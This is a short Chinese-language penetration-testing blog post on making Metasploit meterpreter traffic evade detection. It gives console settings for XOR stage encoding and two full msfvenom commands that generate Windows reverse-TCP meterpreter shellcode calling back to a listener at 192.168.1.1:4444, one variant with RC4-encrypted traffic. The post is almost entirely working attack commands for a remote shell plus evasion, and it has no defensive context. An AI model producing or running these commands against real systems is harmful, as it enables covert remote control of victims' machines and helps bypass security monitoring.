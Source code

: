 ```yaml
---
title: "Meterpreter 流量免杀"
date: 2019-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit', 'bypass']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


对 meterpreter 流量进行编码或加密, 有两种方式.

<!--more-->

指定编码方式, 名称与对 shellcode 的编码器相同.

```
set EnableStageEncoding true
set StageEncoder x86/xor_dynamic
set StageEncodingFallback false
```

生成 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 EnableStageEncoding=true StageEncoder=x86/xor_dynamic StageEncodingFallback=false -f c -o shellcode.c
```

或是直接生成通过 rc4 加密流量的 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.1 LPORT=4444 RC4PASSWORD=exp10it -f c -o shellcode.c
```